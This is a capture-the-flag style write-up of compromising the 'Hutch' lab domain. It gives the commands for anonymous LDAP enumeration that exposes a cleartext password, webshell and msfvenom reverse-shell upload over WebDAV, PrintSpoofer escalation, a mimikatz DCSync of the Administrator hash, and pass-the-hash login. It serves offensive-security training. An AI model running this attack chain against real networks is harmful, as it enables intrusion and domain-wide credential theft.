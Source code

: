

Using ldap anonymous access, we were able to extract all object information on the domain.

Part of the results revealed that there was an user called `Freddy McSorley` who's credential was in cleartext in the `description` field. 


Command: `ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.209.122" "(objectclass=*)" > ldap.results`

Results:
```
# Freddy McSorley, Users, hutch.offsec

dn: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec

objectClass: top

objectClass: person

objectClass: organizationalPerson

objectClass: user

cn: Freddy McSorley

description: Password set to CrabSharkJellyfish192 at user's request. Please c

 hange on next login.

distinguishedName: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec

instanceType: 4
. . .
userPrincipalName: fmcsorley@hutch.offsec
```

Creds:

**fmcsorley:CrabSharkJellyfish192**

--- 

#### Initial Access - WebDav Client

I used `cadaver` to access the webdav server on the target using fmcsorley credentials. 
1. Upload a aspx webshell using `put cmdasp.aspx` which can be found in `/usr/share/webshell/aspx`. After that, I uploaded a msfvenom reverse shell `put shell.exe` and used cmdasp.aspx to trigger the shell which is uploaded to `c:\inetpub\wwwroot\shell.exe`.
![[Pasted image 20231101215932.png]]

`nc -lvnp 443`

![[Pasted image 20231101215949.png]]

#### Privilege Escalation - SeImpersonatePrivilege + DCSync

I downloaded sharpup and ran it. It showed that the iis apppool account had `SeImpersonatePrivilege`. 
![[Pasted image 20231101223014.png]]

I also checked if the Printer Spooler service was running using `get-service -name spooler` and I found that the spooler service was indeed running:

![[Pasted image 20231101223112.png]]

This combination of factors makes this machine vulnerable to the famous printspoofer exploit.

After running the exploit, I noticed that printspoofer exploit gave me access to the DC machine account hutchdc$. The machine account for the DC itself always have DCSync privilege.

![[Pasted image 20231101222808.png]]

![[Pasted image 20231101222756.png]]

Knowing this, I downloaded mimikatz into the system and DCSync the Administrator account.

`mimikatz # lsadump::dcsync /domain:hutch.offsec /user:Administrator`

```
SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 
Password last change : 11/1/2023 4:29:23 PM
Object Security ID   : S-1-5-21-2216925765-458455009-2806096489-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 47b6dbd3ab1474e560406edb7ad53a4a

```

Then, I connected to the DC using psexec and the administrator user passing the hash and got access in the DC as SYSTEM!

![[Pasted image 20231101222451.png]]
